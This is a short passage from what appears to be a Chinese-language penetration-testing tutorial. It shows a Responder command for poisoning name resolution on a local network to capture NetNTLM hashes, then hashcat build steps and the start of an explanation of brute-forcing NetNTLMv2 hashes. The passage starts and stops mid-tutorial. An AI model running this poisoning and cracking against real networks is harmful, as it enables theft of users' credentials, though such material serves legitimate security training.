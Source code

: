 * 攻击机执行：$ sudo python Responder.py -I eth0 -v -w on -F on
![90](/img/post/Xnip2020-12-11_14-28-15.png)

### 0x05 使用hashcat解密
* 安装hashcat(参考[这里](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going?_blank))

```bash
$ git clone https://github.com/hashcat/hashcat.git
$ mkdir -p hashcat/deps
$ git clone https://github.com/KhronosGroup/OpenCL-Headers.git hashcat/deps/OpenCL
$ cd hashcat
$ make
$ ./example0.sh
$ ./hashcat
```

* 利用hashcat暴力猜解密码  
-m：hash-type，5600对应NetNTLMv2